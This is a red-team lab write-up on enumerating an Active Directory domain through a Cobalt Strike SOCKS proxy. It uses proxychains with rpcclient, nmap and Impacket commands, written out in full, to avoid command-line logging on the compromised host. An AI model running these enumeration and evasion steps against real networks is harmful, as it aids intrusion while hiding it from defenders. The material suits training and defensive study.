







# Enumerating Windows Domains with rpcclient through SocksProxy == Bypassing Command Line Logging

This lab shows how it is possible to bypass commandline argument logging when enumerating Windows environments, using Cobalt Strike and its socks proxy \(or any other post exploitation tool that supports socks proxying\). 

In other words - it's possible to enumerate AD \(or create/delete AD users, etc.\) without the likes of:

* net user
* net user &lt;bla&gt; /domain
* net user &lt;bla&gt; &lt;bla&gt; /add /domain
* net localgroup
* net groups /domain
* and similar commands

...which most likely are monitored by the blue team.

## Assumption

In this lab, it is assumed that the attacker/operator has gained:

* code execution on a target system and the beacon is calling back to the team server
* valid set of domain credentials for any `authenticated user`

## Lab Environment

| IP | What's behind |
| :--- | :--- |
| 10.0.0.5 | attacker with kali and `rpcclient` |
| 10.0.0.2 | compromised Windows system `WS01` |
| 10.0.0.6 | Windows DC `DC01` to be interrogated by 10.0.0.5 via 10.0.0.2 |
| 10.0.0.7 | Windows box `WS02` to be interrogated by 10.0.0.5 via 10.0.0.2 |

## Execution

The below shows a couple of things. First one - two Cobalt Strike sessions:

* PID 4112 - original beacon
* PID 260 - beacon injected into dllhost process

Second - attacker opens a socks4 proxy on port 7777 on his local kali machine \(10.0.0.5\) by issuing:


```text
socks 7777
```



This means that the attacker can now use proxychains to proxy traffic from their kali box through the beacon to the target \(attacker ---&gt; beacon ---&gt; end target\).

Let's see how this works by firstly updating the proxychains config file:


```text
nano /etc/proxychains.conf
```




### Enumeration

Once proxychains are configured, the attacker can start enumerating the AD environment through the beacon like so:


```text
proxychains rpcclient 10.0.0.6 -U spotless
enumdomusers
```




Moving on, same way, they can query info about specific AD users:


```text
queryuser spotless
```




Enumerate current user's privileges and many more \(consult rpcclient for all available commands\):


```text
enumprivs
```




Finally, of course they can run nmap if needed:


```csharp
proxychains nmap 10.0.0.6 -T4 -p 21,22,23,53,80,443,25 -sT
```



### Impacket

Impacket provides even more tools to enumerate remote systems through compromised boxes. See the below example gif. 

This is what happens - attacker \(10.0.0.5\) uses proxychains with impacket's reg utility to retrieve the hostname of the box at 10.0.0.7 \(WS02\) via the compromised \(CS beacon\) box 10.0.0.2 \(WS01\):


```csharp
proxychains reg.py offense/administrator:123456@10.0.0.2 -target-ip 10.0.0.7 query -keyName hklm\system\currentcontrolset\control\computername\computername
```


The below shows traffic captures that illustrate that the box 10.0.0.2 enumerates 10.0.0.7 using SMB traffic only:



Below further proves that the box 10.0.0.2 \(WS01 which acted as proxy\) did not generate any sysmon logs and the target box 10.0.0.7 \(WS02\) logged a couple of events, that most likely would not attract much attention from the blue teams:


## Observations

Note how only the SMB traffic between the compromised system and the DC is generated, but no new processes are spawned by the infected `dllhost` process:





## References










